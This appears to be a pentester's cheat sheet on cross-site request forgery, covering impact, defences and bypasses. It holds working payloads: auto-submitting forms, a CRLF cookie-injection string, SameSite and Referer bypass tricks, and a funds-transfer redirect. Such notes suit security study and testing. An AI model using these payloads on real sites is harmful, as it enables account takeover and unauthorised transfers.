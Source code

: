 # CSRF

<details>

<summary>Impact</summary>

* The attacker causes the victim user to carry out an action unintentionally
  * Change password, email, make a funds transfer

<!---->

* If the victim is a privileged user the attacker might be able to take full control of all the application's

</details>

## Conditions

* A relevant action
  * Example: change password
* Cookie-based session handling
* No unpredictable request parameters:
  * If you need to know the value of the existing password -> not vulnerable

## **Exploit**

1. With POST

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2. With GET

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## CSRF tokens bypass

* **Switch from POST to the GET method to bypass**
* **Remove the entire parameter containing the token**
* Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens).
  * Simply **invent a token in the required format**

***

* Some apps don't validate if the token belongs to the same session as the requesting user.
  * Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack

***

* Some applications do tie the CSRF token to a cookie, but not to the session cookie. So there are two token: one in a cookie and one in hidden input. (this can also have the same value)
  * Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;
  * ```
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  * Log in to the application with your account -> obtain a valid token and associated cookie.
  * Remove the auto-submit `<script>` block, and add the following code to inject the cookie.
  * ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## SameSite cookies bypass

* Bypassing SameSite Lax restrictions using GET requests

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

***

* Bypassing SameSite Lax restrictions using GET method override
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

***

* Bypassing SameSite Strict bypass via client-side redirect
  * Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

Note: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.

## Referer-based validation bypass

* Validation of Referer depends on header being present
  * Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`

***

* Validation of Referer can be circumvented
  * `http://vulnerable-website.com.attacker-website.com/csrf-attack`
  * `http://attacker-website.com/csrf-attack?vulnerable-website.com`
  * `http://attacker-website.com/vulnerable-website.com`
  * Note 1: add Referrer-Policy: unsafe-url
    * One way to set it in html: `<meta name="referrer" content="unsafe-url" />`
  * Note 2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
  * Note 3: Instead of use http://attacker-website.com/vulnerable-website.com that looks strange you can use http://attacker-website.com/ and add `<script>history.pushState('', '', '/attacker-website.com')</script>`

More info about setting Referer-Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
